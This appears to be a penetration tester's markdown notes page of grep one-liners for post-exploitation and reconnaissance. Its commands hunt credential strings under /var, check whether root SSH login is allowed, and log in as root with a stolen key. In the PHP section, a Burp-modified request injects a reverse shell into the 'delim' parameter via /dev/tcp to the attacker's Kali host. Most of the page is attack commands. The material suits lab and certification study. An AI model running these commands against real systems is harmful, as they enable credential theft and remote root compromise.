```yaml
---
category: Uncategorized
tags: []
---
```

#### Grep'n for passwords

```bash - target
cd /var/
```

```bash - target
grep -rli "db_login" * 2>/dev/null
```

```bash - target
grep -rli "db_user" * 2>/dev/null
```

```bash - target
grep -rli "db_password" * 2>/dev/null
```

```bash - target
grep -rli "DBUSER" * 2>/dev/null
```

```bash - target
grep -rli "DBPASS" * 2>/dev/null
```

```bash - target
grep -rli "password" * 2>/dev/null
```

```bash - target
grep -rli "pass" * 2>/dev/null
```

```bash - target
grep -rli "pwd" * 2>/dev/null
```

#### Grep for root ssh logins are allowed
```bash - target
grep PermitRootLogin /etc/ssh/sshd_config
```

![[Pasted image 20211230152209.png]]

Copy the key value to kali box, then change permissions:

```bash - kali
chmod 600 root_key
```

Use the key to SSH to the target as the root account:

```bash - kali
ssh -i root_key root@$TARGET
```


#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```

![[Pasted image 20221115145905.png]]

Here we see some comments, but the middle entry for logs.php is a legit finding.

We would just go to the logs.php page, capture the post request in Burp, and modify the request to:

```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```

#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```

#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```

```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```

#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}"
```

#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u 
```

